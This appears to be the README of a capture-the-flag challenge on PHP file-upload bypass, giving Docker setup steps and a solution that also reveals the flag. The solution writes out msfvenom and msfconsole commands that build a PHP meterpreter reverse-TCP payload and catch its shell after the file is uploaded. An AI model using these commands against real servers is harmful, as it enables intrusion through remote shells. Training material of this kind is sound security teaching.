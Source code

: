 # haaukins_upload_bypass

**Description**

This upload bypass CTF challenge was created for Haaukins platform. The main goal of the project is finding the vulnerabilities of the file upload systems and exploit the vulnerability by using Metasploit Framework. In this project, an Apache2 server created and website is published on the server. PHP is used for back-end of the website. This application is containerized with Docker. 

**Prerequisite**

Docker must be installed in your local machine to run this challenge.

**How to Run?**

1- git clone https://gitlab.com/faraklit/haaukins_upload_bypass.git

2- cd haaukins_upload_bypass/

3- docker build -t haaukins_upload_bypass .

4- docker run -d -p 80:80 -e FLAG="FLAG=I thought that I saw a pretty cat. Yes, I did I did!" haaukins_upload_bypass

5- Browse localhost:80/

**Solution**

1- Create php reverse tcp code
- msfvenom -p php/meterpreter/reverse_tcp LHOST="MACHINE IP ADDRESS" LPORT=4444 -f raw -o malware.php

2- Open msfconsole and enter following codes:
- use exploit/multi/handler
- set payload php/meterpreter/reverse_tcp
- set LHOST "MACHINE IP ADDRESS"
- exploit

3- Upload "malware.php" to the system

4- Browse to localhost/uploads

5- Click "malware.php"

6- Reverse shell must be initialized and commands can be entered

7- Traverse in the directories to find the flag!

Video link: https://www.youtube.com/watch?v=R2pFNEi_3KA
